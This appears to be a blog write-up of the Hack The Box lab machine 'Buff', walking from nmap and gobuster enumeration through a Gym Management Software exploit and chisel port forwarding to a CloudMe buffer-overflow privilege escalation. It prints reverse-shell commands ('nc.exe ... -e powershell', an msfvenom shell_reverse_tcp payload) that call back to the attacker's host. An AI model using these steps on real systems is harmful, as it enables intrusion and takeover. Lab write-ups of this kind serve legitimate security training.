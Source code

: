 ```yaml
---
layout: post
title: "Buff"
date: 2022-03-14
categories: [HackTheBox, Easy-HTB]
tags: [Powershell, BurpSuite, Gym-Management-Software, Buffer-Overflow, searchsploit, msfvenom, chisel]
image: ../../assets/img/posts/Buff.png

---
```


|**Machine**|[Buff](https://app.hackthebox.com/machines/263)|
|:---:|:---:|
|**OS**|Windows|
|**Difficulty**|Easy|
|**Creator**|[egotisticalSW](https://app.hackthebox.com/users/94858)|

---

We'll start with connecting to HTB network by making connection with .ovpn file and then spin up machine. This box's IP is **10.10.10.198**.

Let's get started with nmap scan,

```bash
sudo nmap -T4 -A -p- -oN nmap_scan 10.10.10.198
```

![image](https://user-images.githubusercontent.com/67465230/158127315-4a5bdbfe-9e75-417a-b155-83c342b87580.png)

only 2 ports are open that are 7680 and 8080(http).

let's see what technologies are running on website,

![image](https://user-images.githubusercontent.com/67465230/158127329-c1b5f2bf-5a4b-4bc4-bdad-58946494037c.png)

let's visit http://10.10.10.198:8080/,

![image](https://user-images.githubusercontent.com/67465230/158127349-db60fb6f-4c9e-48da-8e2f-f3652a9e59a1.png)

let's bruteforce directories using gobuster,

```bash
gobuster dir -u http://10.10.10.198:8080 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67465230/158127361-69f57ee3-d770-4c01-ae41-b09a8db42ccd.png)

let's visit /edit.php path and here we can edit information of our account so there must be a login page 

![image](https://user-images.githubusercontent.com/67465230/158127400-984eb1e0-760e-4924-8e9d-4bdf65ef22c2.png)

on register page it is showing and there is no method to get log into website so we'll do exploitation now.

![image](https://user-images.githubusercontent.com/67465230/158127418-392fdee7-7ee5-4ea1-8cc5-bac6cb337f32.png)

this website is made using Gym management software, so we'll look for this software's exploit,

![image](https://user-images.githubusercontent.com/67465230/158127433-e29220ab-3f55-4134-9d91-eb3fca102189.png)

now we'll search about this exploit in **searchsploit**,

```bash
searchsploit gym management
```

![image](https://user-images.githubusercontent.com/67465230/158127443-4a28e614-b825-46dc-93f8-865ee1234518.png)

and we can see that this gym management software.

We'll mirror this exploit to make some changes and then we'll run this exploit

```bash
searchsploit -m php/webapps/48506.py
```

![image](https://user-images.githubusercontent.com/67465230/158128719-81493494-fd88-4b66-bbaa-99c3a899cab3.png)

now we'll edit this exploit and add proxies to tunnel it'll with burp

![image](https://user-images.githubusercontent.com/67465230/158128736-b7bf28ac-35b5-491a-9f89-047ef9ae4334.png)
![image](https://user-images.githubusercontent.com/67465230/158128754-07fb460f-fa69-48f1-84c9-ded2256088b3.png)

now start burpsuite and then fire off this exploit 

```bash
python 48506.py http://10.10.10.198:8080/
```

![image](https://user-images.githubusercontent.com/67465230/158128767-a0e9ff91-0625-419f-a8b0-2ce3627ca69c.png)

now it'll wait for us to forward the request in burp suite in order to proceed further,

![image](https://user-images.githubusercontent.com/67465230/158128784-c4ae22e0-0115-4d17-ac26-1954c979a42b.png)

and after we've forward all the request in burp, we'll see that we've obtain the web-shell and there are some file that we can do further to improve our shell.

![image](https://user-images.githubusercontent.com/67465230/158128799-a457fe85-79b3-47d8-8c2e-9527b8e73041.png)

now since this is a web-shell, this shell won't let us do much like enumeration and exploitation. So we've to improve our shell in order to find flags. 

```bash
nc.exe 10.10.14.6 -e powershell
```

![image](https://user-images.githubusercontent.com/67465230/158128813-2c8a4e5b-c4c1-4ed8-a46f-2683bf28525d.png)

now by doing this and starting netcat listener `nc -nvlp 4444`, we'll get our reverse shell.

![image](https://user-images.githubusercontent.com/67465230/158128821-f6a384c2-8052-4cc5-9a4e-40985df7eaef.png)

and to confirm that what level of user's we're type this .

now traversing to the shaun user's Desktop directory, we can see that there is a user's flag so grab that flag. 

![image](https://user-images.githubusercontent.com/67465230/158128836-fd5f4dd4-c585-4760-8663-9aad7b7b1fbf.png)

now we've to find the root flag and we'll navigate to Administrator's directory and we can see this message depicting that "Access is Denied".

![image](https://user-images.githubusercontent.com/67465230/158128851-fd7e559d-6ed1-4a9e-bd61-6b2c7a5f9194.png)

So now we've to do some priv esc in order to gain root access. So now we'll navigate around and i've found the db_connect.php file that'll maybe have login credentials.

![image](https://user-images.githubusercontent.com/67465230/158128870-b2bd45d0-48e9-4aac-bd92-f3bdedc910da.png)

by seeing the content of this **db_content.php** file, we've found that login credentials for connecting to mysql database is **root** with **no password**(**just hit enter when it prompt for password**).

```bash
type db_connect.php
```

![image](https://user-images.githubusercontent.com/67465230/158128883-64834f47-bc00-4eac-a176-4529615b906f.png)

and also we've found this CloudMe_1112.exe file that will maybe come handy in future.

![image](https://user-images.githubusercontent.com/67465230/158129872-b39f26a1-d442-4da6-bf90-e9bb08e2c808.png)

now in order to do port forwarding, we've to do find the open port on which we can connect to the database.

```bash
netstat -an
```

![image](https://user-images.githubusercontent.com/67465230/158129031-129907d8-b10b-4421-ba3a-d29429191796.png)

and by doing this we can see that we've have open ports which we can use them to connect to the database and also port **3306**(**mysql**) port is listening. 

```bash
netstat -an | findstr 127.0.0.1
```

![image](https://user-images.githubusercontent.com/67465230/158129048-e44766a3-0a64-4653-b913-0e45f47f4bd4.png)

now we'll do port forwarding in order to communicate with the database of the machine. Now clone chisel from github and setup in kali machine and then type the following in remote machine,

```bash
.\chisel.exe client 10.10.14.6:9002 R:3306 R:8888:localhost:8888
```

![image](https://user-images.githubusercontent.com/67465230/158129063-b9040c7d-3bf0-4689-8ca0-1d7018078052.png)

and in our machine, we have to run the chisel executable and then this will show

```bash
./chisel server --reverse --port 9002
```

![image](https://user-images.githubusercontent.com/67465230/158129076-84cdd0be-b565-4090-8bb7-e63321c77445.png)

it's showing that the port forwarding is successfully establish and now we'll try to connect to MYSQL database of the remote machine.

and connect to mysql instance of buff machine using,

```bash
mysql -u root -p -h 127.0.0.1
```

![image](https://user-images.githubusercontent.com/67465230/158129090-659d87ba-7f20-4502-a922-7e4f21790da5.png)

but after enumerating everything, we can't really find anything so now we'll jump back to our **CloudMe_1112.exe** file and search in **searchsploit** about this exploit.

```bash
searchsploit cloudme
```

![image](https://user-images.githubusercontent.com/67465230/158129100-c5aa56e2-e815-4194-9800-0c88ad4d9a92.png)

we can see that this is a buffer overflow exploit and now to see this we'll do and we'll see this exploit shellcode 

```bash
searchsploit -x windows/remote/48389.py
```

![image](https://user-images.githubusercontent.com/67465230/158129113-4d95b456-81e9-46be-bde6-4e516e8d081f.png)

and we've to replace this marked area with another shellcode

using this grep command, we'll find the msfvenom payload command and improve that command in order to make an effective payload

```bash
grep -i msfvenom 48389.py
```

![image](https://user-images.githubusercontent.com/67465230/158129120-26b15474-6885-4107-ac98-2e8cd51e20bd.png)

and then we'll just improve the shellcode or we'll just make a new shellcode

```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.6 LPORT=9001 -b '\x00\x0A\x0D' -f python
```

![image](https://user-images.githubusercontent.com/67465230/158129134-487a739a-84d0-4d7b-9c71-238053e13e28.png)

and then copy this shellcode in the 48389.py file 

![image](https://user-images.githubusercontent.com/67465230/158129144-9b1e879d-622e-444e-bf50-5b29fe79ad6c.png)

and now start the netcat listener on port `nc -nvlp 4444` and then run this python file and we'll get reverse shell and when doing **whoami**, it'll show us that we're administrator and then grab the root flag from administrator user's directory.